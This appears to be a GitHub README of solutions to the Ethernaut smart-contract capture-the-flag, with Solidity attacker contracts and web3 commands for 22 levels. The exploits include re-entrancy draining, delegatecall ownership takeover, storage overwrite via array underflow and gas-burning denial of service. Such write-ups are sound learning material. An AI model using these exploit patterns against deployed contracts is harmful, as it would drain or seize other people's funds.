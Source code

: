 # ethernaut-ctf-solutions

<details>
    <summary>🍂 Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>💣 Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>🛹 Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>☎️ Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>💸 Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>👉 Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 

 <details>
    <summary>🏋️‍♂️ Level 7 - Force</summary>

Relevant chapter in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyMoney {
    fallback() external payable {}
    
    function boom(address payable _address) public {
        selfdestruct(_address);
    }
}
```

</details> 

 <details>
    <summary>🏦 Level 8 - Vault</summary>

Find the transaction that was used to create the contract on Etherscan, and look in the state change tab. We can see the value that was stored in the first variable: that's the password, then we just invoke unlock with it:

```javascript
await contract.unlock("0x...")
```

</details> 

 <details>
    <summary>👑 Level 9 - King</summary>

Trying to make this contract the king, it should refuse eth transfers, hence preventing the ownership transfer. Deploy it with 1 ETH, so that it has a starting balance.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


interface King {
    function _king() external view returns (address payable);
}

contract KingMaker {
    constructor() public payable {}
    
    function kingMe(address kingInstance) public {
        // send ether using a low-level call because send/transfer are limited to 2300 gas
      // send exactly 1 ether, because we need to pass the condition but not exceed the balance of the King contract
        kingInstance.call{value:1 ether}("");
        require(King(kingInstance)._king() == address(this));
    }
    
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


 <details>
    <summary>🔁 Level 10 - Re-entrancy</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Reentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Withdrawer {
    Reentrance instance = Reentrance(address(...));
    uint amount = 0.1 ether;
    
    constructor() payable {}
    
    // this is where we trigger the re-entrancy bug
    receive() external payable {
        if (address(instance).balance >= amount)  {
            instance.withdraw(amount);
        }
    }
    
    function pullTheTrigger() public {
        instance.donate{value: amount}(address(this));
        instance.withdraw(amount);
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


<details>
    <summary>☝️ Level 11 - Elevator</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
    Elevator instance = Elevator(address(...));
    
    bool answer = true;
    
  function isLastFloor(uint) external returns (bool) {
      answer = !answer;
      return answer;
  }
 
  function justDoIt() public {
      instance.goTo(42);
  }
}
```

</details> 

<details>
    <summary>🤫 Level 12 - Privacy</summary>

```javascript
// read where data[2] is stored (in the fifth slot since there is some 
packing of smaller arguments going on):

await web3.eth.getStorageAt(instance, 5)

-> "0x658df6fba159ec7a1e678c38c33e7a77dd541772c97aeed1ad580b033885e238"

// turn that into a bytes16, which means calling unlock with the first half:

await contract.unlock('0x658df6fba159ec7a1e678c38c33e7a77')

```

</details> 

<details>
    <summary>💂‍♂️ Level 13 - Gatekeeper one</summary>

For the key value itself, need to replace the last 2 bytes with the end of the address used to send the transaction.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GatekeeperOne {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    GatekeeperOne instance = GatekeeperOne(address(...));
    event ErrorLog(string reason);

    // getting the gas left just right was difficult, I took some inspiration online to "fuzz" with the for loop
    function pullTheTrigger() public returns(bool) {
        for (uint256 i = 0; i < 120; i++) {
          try instance.enter{gas:i + 150 + 8191 * 3}(0xffffffff0000....) returns(bool result) {
              if (result) {
                  return result;
              }
          } catch Error(string memory reason) {
            emit ErrorLog(reason);
          } catch (bytes memory /*lowLevelData*/) {
            // This is executed in case revert() was used.
            emit ErrorLog("not the right amount of gas");
          }
        }
        return false;
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🐕 Level 14 - Gatekeeper two</summary>

```solidity
// SPDX-License-Identifier: MIT

// this is important, with newer Solidity versions, 
// `uint64(0) - 1` will fail because it relies on an underflow
pragma solidity ^0.6.0; 

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    constructor() public {
        uint64 hashedMe = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 key = ~hashedMe;
        uint64 expected = uint64(0) - 1;
        
        require(hashedMe ^ key == expected, "wrong key");
        
        GatekeeperTwo instance = GatekeeperTwo(address(...));
        instance.enter(bytes8(key));
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>👌 Level 15 - Naught coin</summary>

The timelock only applies to `transfer`, not `transferFrom` so we need to go with `approve` -> `transferFrom`
Replace '0x...' with the contract instance address. Type 'instance' in the browsers inspect console to get the address.

```solidity
> balance = (await contract.balanceOf(player)).toString()
"1000000000000000000000000"

> await contract.approve(player, '1000000000000000000000000')
> await contract.transferFrom(player, '0x...', '1000000000000000000000000')

> balance = (await contract.balanceOf(player)).toString()
"0"
```

</details> 

<details>
    <summary>⏰ Level 16 - Preservation</summary>

Deploy this first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract EvilDoer {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        timeZone1Library = address(this);
        timeZone2Library = address(this);
        owner = tx.origin;
    }

    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

```javascript
// then run this to stomp the address of timeZone1Library with evildoer
await contract.setFirstTime(evildoer);

// then let evildoer stomp the owner
await contract.setFirstTime(42);
```

</details> 

<details>
    <summary>⛑️ Level 17 - Recovery</summary>
Use etherscan to find the address the 0.5 ether was sent to.

```javascript
// getting the function selector:
web3.eth.abi.encodeFunctionSignature('destroy(address)')
"0x00f55d9d"

// getting the whole function invocation, including the selector:
web3.eth.abi.encodeFunctionCall({
   name: 'destroy',
   type: 'function',
   inputs: [{
       type: 'address',
       name: '_to'
   }]
}, [player]);

"0x00f55d9d000000000000000000000000....."

// making a low level call to self destruct it:
web3.eth.sendTransaction({from: player, to: tokenContract, data: "0x00f55d9d000000000000000000000000...."})
```

</details> 

<details>
    <summary>🧙‍♂️ Level 18 - Magic number</summary>

Let's make the tiniest solver in Yul:

```yul
// Solver.yul
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}
```

Build it:

```
> solc --strict-assembly Solver.yul

Warning: Yul is still experimental. Please use the output with care.

======= Solver.yul (EVM) =======

Pretty printed source:
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}


Binary representation:
602a60205260206020f3

Text representation:
    /* "Solver.yul":50:52   */
  0x2a
    /* "Solver.yul":44:48   */
  0x20
    /* "Solver.yul":37:53   */
  mstore
    /* "Solver.yul":75:77   */
  0x20
    /* "Solver.yul":69:73   */
  0x20
    /* "Solver.yul":62:78   */
  return
```

Take note of the binary representation. We want to deploy that, which is a bit tricky because we need to send a transaction to address 0 not with this code directly, but with code that returns this binary representation. I took the opportunity to learn about deployment code by writing a [raw_deployer](https://github.com/karmacoma-eth/yolo-evm#raw_deployerpy) script:

``` shell
> python raw_deployer.py 602a60205260206020f3       
600a8061000d6000396000f3fe602a60205260206020f3
```

Now we got the init code, we can create the contract:

```javascript
web3.eth.sendTransaction({
    from: player, 
/* no to address as we are creating a contract */ 
    data: "600a8061000d6000396000f3fe602a60205260206020f3"
})
```

Now just set the solver on the contract and we're done:

```javascript
await contract.setSolver('0x...')
```

</details> 


<details>
    <summary>👽 Level 19 - Alien codex</summary>

Relevant [Solidity docs](https://docs.soliditylang.org/en/v0.8.5/internals/layout_in_storage.html#mappings-and-dynamic-arrays):

>>> "Assume the storage location of the mapping or array ends up being a slot p after applying the storage layout rules. ... Array data is located starting at keccak256(p) and it is laid out in the same way as statically-sized array data would: One element after the other, potentially sharing storage slots if the elements are not longer than 16 bytes."

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface AlienCodex {
  function make_contact() external;
  function record(bytes32 _content) external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
}

contract Underhanded {
    AlienCodex instance = AlienCodex(address(0x...));
    event ErrorLog(string reason);

    function pullTheTrigger() public {
        instance.make_contact();
        
        // we need to underflow the length of the array, which is now 0xffffffff....
        instance.retract();
        
        // now we get to modify any storage we want
        // the base storage of the array is at 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
        // so to overwrite storage at slot 0, we calculate the index as hex(0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1)
        instance.revise(
            0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a,
            0x0000000000000000000000008830c393b2ed864Bb3c1A2FB9Fce8dA83f6db66c
        );
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🙅‍♂️ Level 20 - Daniel</summary>
Just burn all the gas available in the receive() function since they didn't specify a gas stipend like `call.gas(100000).value()`

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract Burner {
    event ErrorLog(string reason);

    receive() payable external {
        uint i = 0;
        while (gasleft() > 10) {
            i++;
        }
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 

<details>
    <summary>🛍️ Level 21 - Shop</summary>
Idea: use the fact the Shop sets `sold = true` between the two calls: they paid for a storage change, and maybe we can look it up for cheap. However even with the following Solidity code I wasn't able to get it to run under the 3000 gas limit:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Shop {
  function isSold() external view returns(bool);
  function buy() external;
}

contract Buyer {
    Shop shop = Shop(address(0x...));

    function price() external view returns (uint) {
        return shop.isSold{gas: 2000}() ? 42 : 200;
    }
    
    function pullTheTrigger() public {
        shop.buy();
    }
}
```

It ended up working with the following Yul code:

```yul
object "Buyer" {
    code {
        // Deploy the contract
        datacopy(0, dataoffset("runtime"), datasize("runtime"))
        return(0, datasize("runtime"))
    }

    object "runtime" {
        code {
            // Dispatcher
            switch selector()

            case 0xa035b1fe /* "price()" */ {
                let price := 42
                if eq(isSold(), 0) {
                    price := 200
                }
                returnUint(price)
            }

            case 0xb760d418 /* "pullTheTrigger(address)" */ {
                buy()
                stop()
            }

            default {
                revert(0, 0)
            }

            /* ---------- calldata decoding functions ----------- */
            function selector() -> s {
                s := div(calldataload(0), 0x100000000000000000000000000000000000000000000000000000000)
            }

            /* ---------- calldata encoding functions ---------- */
            function returnUint(v) {
                mstore(0, v)
                return(0, 0x20)
            }

            /* ---------- utility functions ---------- */
            function isSold() -> sold {
                mstore(0, 0xe852e741) /* 'isSold()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0x20, 0x20)
                sold := mload(0x20)
            }

            function buy() {
                mstore(0, 0xa6f2ae3a) /* 'buy()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0, 0)
            }
        }
    }
}
```

Compile it:

```
> solc --strict-assembly --optimize Buyer.yul
```

Note the binary representation, deploy it:

```javascript
web3.eth.sendTransaction({from: player, data: '608f8061000f600039806000f350fe6000803560e01c63a035b1fe811460215763b760d41881146064578182fd608c565b602a63e852e7418352602060206004601c86734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150602051151560585760c890505b80835250602082f3608c565b63a6f2ae3a825281826004601c85734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150005b5050'})

// make sure the contract is fresh:
await contract.isSold()
-> false

// trigger the attack!
web3.eth.sendTransaction({from: player, to: '0x...', data: 'b760d418', gas: 100000})

await contract.isSold()
-> true

(await contract.price()).toString()
-> 42 
```

</details> 

<details>
    <summary>⚖️ Level 22 - Dex</summary>

Really anticlimactic final challenge, just keep swapping back and forth. The contract doesn't calculate the number of outgoing tokens properly, so it's losing liquidity every time 🤷‍♂️
</details> 
